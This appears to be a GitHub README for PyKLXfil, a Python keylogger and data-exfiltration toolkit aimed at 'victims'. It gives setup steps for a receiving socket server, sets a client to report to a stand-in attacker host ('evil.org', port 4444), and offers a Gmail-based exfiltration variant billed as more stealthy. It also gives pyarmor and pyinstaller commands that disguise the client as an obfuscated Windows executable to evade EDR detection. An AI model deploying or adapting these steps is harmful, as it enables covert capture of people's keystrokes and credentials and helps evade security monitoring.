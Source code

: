 # PyKLXfil: Python Keylogger and Exfiltrator.
## The toolset contains four main tools:
* PyKLXfil-Server: a socket server to recieve the exfiltrated data from a victem.
* PyKLXfil-Client: the agent that will perform the encoded key logging with a custome base64 table and the exfiltration of data back to PyKLXfil-Server.
* PyKLXfil-Client-mail: a standalone agent that will perform encoded key logging with a custome base64 table and exfiltration to a gmail email account (more stealthy).
* PyKLXfil-Decoder: a tool to decode the key logs.
#### Disclaimer: For educational purpose, use at your own responsibility.
## Install:
```sh
  git clone https://github.com/iD4rksid3/PyKLXfil.git
  cd PyKLXfil
  #The tool requires only two external modules: yagmail and pynput
  pip3 install -r requirements.txt
  ```
## Usage:
### Key logging and exfiltration using socket server and client:
```sh
#start listening on all NICs and on port 443 as background job
python3 PyKLXfil-Server.py 0.0.0.0 443 &
```
* Compile and obfuscate the python client for a windows machine:
```sh
#Edit PyKLXfil-Client.py and add your server's IP/domain and port
 nano PyKLXfil-Client.py
 #snip...       
 #self.host = 'evil.org'
 #self.port = 4444
 ```
 * Make obfuscated Windows executable with [pyarmor](https://github.com/dashingsoft/pyarmor) to make it less detectable by EDRs:
 ```sh
 pip3 install pyarmor
 pip3 install pyinstaller
 pyarmor pack --clean -e "--onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32" PyKLXfil-Client.py -n mscc.exe
 ```
 * Compile the script to exe using pyinstaller:
```sh
pyinstaller --onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32 -n mscc.exe PyKLXfil-Client.py
```
### Key logging and exfiltration using gmail (more stealthy):
* Compile and obfuscate the python gmail client for a windows machine (stand alone):
* Note: you will first need to get app password token to be used in the script, a good guide can be found [here](https://towardsdatascience.com/automate-sending-emails-with-gmail-in-python-449cc0c3c317)
```sh
nano PyKLXfil-Client-mail.py
 #snip...       
  #user = 'example@gmail.com'
  #app_password = 'qweertyuiop12345678'
  #to = 'example@gmail.com'
```
* Make obfuscated executable with [pyarmor](https://github.com/dashingsoft/pyarmor) to make it less detectable by EDRs:
 ```sh
 pip3 install pyarmor
 pip3 install pyinstaller
 pyarmor pack --clean -e "--onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32" PyKLXfil-Client-mail.py -n mscc.exe
 ```
 * After recieving the encoded log files, PyKLXfil-Decoder.py can be used to decode them:
```sh
python3 PyKLXfil-Decoder.py xxxx.log
#will result in a decoded file Decoded-xxxx.log
```
## License

Distributed under the MIT License. See `LICENSE` for more information.
